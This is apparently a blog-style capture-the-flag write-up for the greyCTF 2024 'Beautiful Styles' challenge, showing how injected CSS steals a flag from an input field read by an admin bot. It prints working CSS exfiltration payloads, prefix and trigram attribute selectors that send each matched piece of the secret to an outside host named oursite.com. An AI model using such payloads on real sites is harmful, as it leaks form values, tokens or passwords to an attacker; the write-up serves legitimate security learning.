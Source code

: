 ```yaml
---
title: Beautiful Styles
date: 2024-04-27
tags: 
- web
- css
- author-hartmannsyg
categories: greyCTF 2024
---
```


solved by {% person hartmannsyg %}

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag only consists of numbers and uppercase letters and the lowercase character `f` (the exception is the flag format of grey{.+})<br>
> Author: Junhua
> http://challs.nusgreyhats.org:33339

Or, if you were working on the challenge in the beginning:

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag <u>*only consists of numbers and uppercase letters*</u>

We are given a website to submit css:

![](../../static/greyCTF2024/bs1.png)

Our css will then be loaded, and we have to somehow extract the flag in this `<input>`:

![](../../static/greyCTF2024/bs2.png)

When we submit the css for "judging", what just means is that the admin bot will visit that page with the real flag in the `<input>`

Since we can only inject css, we can't xss, so how can we exfiltrate for the flag?

## CSS Injection

### The normal way

We can host our own website, and exfiltrate each character of the flag one at a time

{% ccb gutter1:1-6,S,73-78 lang:css %}
#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
#flag[value^="grey{B"] {
    background-image: url(http://oursite.com/B)
}
/*SKIP_LINE:(...)*/
#flag[value^="grey{Y"] {
    background-image: url(http://oursite.com/Y)
}
#flag[value^="grey{Z"] {
    background-image: url(http://oursite.com/Z)
}
{% endccb %}

This uses a css attribute selector. So for example, if our flag starts with `grey{X`, this css will load:
```css
#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
```
and we receive a request with the url `http://oursite.com/X`. This way, we know that the flag starts with `X`

> Note that you also need to check for numbers (and `f`) as well. 

But what if you found this too slow and wanted to blood it?

### My way

There is another technique that is used in css exfiltration know as <u>trigrams</u>. Essentially, instead of checking whether an attribute *starts with* something, we check if the attribute *contains* a sequence of characters. (Three is generally optimal since if we only use 2 and there is a repeated character, it becomes hard to reconstruct the flag, and 4 is simply too big to upload most of the time):

{% ccb gutter1:1-11,S,46657 lang:css %}
[value*="000"]{--000:url(http://oursite.com/000);}
[value*="001"]{--001:url(http://oursite.com/001);}
[value*="002"]{--002:url(http://oursite.com/002);}
[value*="003"]{--003:url(http://oursite.com/003);}
[value*="004"]{--004:url(http://oursite.com/004);}
[value*="005"]{--005:url(http://oursite.com/005);}
[value*="006"]{--006:url(http://oursite.com/006);}
[value*="007"]{--007:url(http://oursite.com/007);}
[value*="008"]{--008:url(http://oursite.com/008);}
[value*="009"]{--009:url(http://oursite.com/009);}
[value*="00A"]{--00A:url(http://oursite.com/00A);}
/*SKIP_LINE:(...)*/
#flag[value] { background:var(--000,none),var(--001,none),/*etc...*/; }
{% endccb %}

This is similar to the previous example, but in order to save characters, I have opted to use css variables instead to compress the payload slightly (the url still makes up the bulk on the data)

With all that in place, let's receive our trigrams:

{% ccb terminal:true wrapped:true %}
0UC,1ND,34R,4NF,4RC,C4N,5S3,RCH,NF1,S34,Y0U,X5S,CH1,ND1,D1T,UC4,F1N
{% endccb %}

uhhhhhhhhhhhhhhh, we can construct two substrings of the flag `X5S34RCH1` and `Y0UC4NF1ND1T`, but why is one thing missing????????????

Unfortunately someone else blooded this already.

After dying for several minutes, I decided to fall back on the original strategy, but it still didn't work. Then I decided to mix in lowercase letters (cuz why not). And it turns out there was an `f` after `X5S34RCH1` like what the fuck why is there an `f` there ?????????

<img src="https://media1.tenor.com/m/JIS_KDKKsgYAAAAd/guaton-computadora.gif" width="500rem">

Anyways, I got the flag: `grey{X5S34RCH1fY0UC4NF1ND1T}` (3rd solve)

They later updated the description to include that `f` existed, and then a billion people solved it and it went down to 100 points in like three microseconds so it was all for nothing.

<img src="https://media1.tenor.com/m/kU_EwdsrkLkAAAAC/frieren-dies-cold.gif" width="500rem">